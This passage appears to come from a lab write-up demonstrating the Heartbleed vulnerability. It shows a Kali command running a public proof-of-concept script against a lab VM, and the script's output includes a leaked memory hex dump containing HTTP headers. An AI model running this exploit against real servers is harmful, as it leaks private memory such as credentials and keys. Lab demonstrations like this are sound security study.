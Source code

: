 Command (on Kali Linux - attacking VM):
```
python3 heartbleed-poc.py -p 443 192.168.10.146
```

> Credit: The heartbleed-poc.py script used in this demonstration was obtained from the gist by Akshat Mittal, which was adapted to run on Python 3.

> Explanation:

>- This PoC sends a malformed heartbeat request to the target server, exploiting the vulnerability in OpenSSL 1.0.1f.
>- The exploit triggers a memory leak, allowing the attacker to read sensitive data from the server's memory.
________________________________________
## 7. Confirm Successful Exploit

Result:

- The exploit returned a memory dump from the server, confirming that the Heartbleed vulnerability was successfully exploited.
- Example of a successful response:
```
┌──(kali㉿kali)-[~/heartbleed-poc]
└─$ python3 heartbleed-poc.py -p 443 192.168.10.146
Connecting...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 828
 ... received message: type = 22, ver = 0302, length = 331
 ... received message: type = 22, ver = 0302, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response:
  0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 20 3F 30 0D  ....#....... ?0.
  00e0: 0A 73 65 63 2D 63 68 2D 75 61 2D 70 6C 61 74 66  .sec-ch-ua-platf
  00f0: 6F 72 6D 3A 20 22 57 69 6E 64 6F 77 73 22 0D 0A  orm: "Windows"..
  0100: 4F 72 69 67 69 6E 3A 20 68 74 74 70 73 3A 2F 2F  Origin: https://
  0110: 31 39 32 2E 31 36 38 2E 31 30 2E 31 34 36 0D 0A  192.168.10.146..
  0120: 43 6F 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70  Content-Type: ap
  0130: 70 6C 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D  plication/x-www-
  0140: 66 6F 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D  form-urlencoded.
  0150: 0A 55 70 67 72 61 64 65 2D 49 6E 73 65 63 75 72  .Upgrade-Insecur
  0160: 65 2D 52 65 71 75 65 73 74 73 3A 20 31 0D 0A 55  e-Requests: 1..U
  0170: 73 65 72 2D 41 67 65 6E 74 3A 20 4D 6F 7A 69 6C  ser-Agent: Mozil
  0180: 6C 61 2F 35 2E 30 20 28 57 69 6E 64 6F 77 73 20  la/5.0 (Windows 
  0190: 4E 54 20 31 30 2E 30 3B 20 57 69 6E 36 34 3B 20  NT 10.0; Win64; 
  01a0: 78 36 34 29 20 41 70 70 6C 65 57 65 62 4B 69 74  x64) AppleWebKit
  01b0: 2F 35 33 37 2E 33 36 20 28 4B 48 54 4D 4C 2C 20  /537.36 (KHTML, 
  01c0: 6C 69 6B 65 20 47 65 63 6B 6F 29 20 43 68 72 6F  like Gecko) Chro
  01d0: 6D 65 2F 31 32 39 2E 30 2E 30 2E 30 20 53 61 66  me/129.0.0.0 Saf
```